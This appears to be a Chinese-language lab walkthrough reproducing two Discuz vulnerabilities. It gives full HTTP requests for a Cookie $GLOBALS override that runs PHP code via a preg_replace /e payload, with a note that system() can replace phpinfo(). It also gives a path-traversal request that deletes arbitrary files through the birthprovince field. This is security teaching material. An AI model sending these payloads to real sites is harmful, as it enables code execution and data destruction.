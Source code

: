### [](#6-discuz "6.discuz")6.discuz

#### [](#1-Discuz-7-x-6-x-全局变量防御绕过导致代码执行 "(1)Discuz 7.x/6.x 全局变量防御绕过导致代码执行")\(1\)Discuz 7.x/6.x 全局变量防御绕过导致代码执行

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

* <https://www.secpulse.com/archives/2338.html>

安装成功后，直接找一个已存在的帖子，向其发送数据包  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">GET /viewthread.php?tid=10&amp;extra=page%3D1 HTTP/1.1</span><br><span class="line">Host: 192.168.6.130:8080</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();</span><br><span class="line">Connection: close</span><br></pre></td></tr></tbody></table>

  
可见，phpinfo已成功执行：

同样，也可以换成system\(\)函数，这样就可以在括号里执行一些命令

#### [](#（2）Discuz-X-≤3-4-任意文件删除漏洞 "（2）Discuz!X ≤3.4 任意文件删除漏洞")（2）Discuz\!X ≤3.4 任意文件删除漏洞

漏洞详情：<https://lorexxar.cn/2017/09/30/dz-delete/>

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

注册用户后，在个人设置页面找到自己的formhash：

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--
```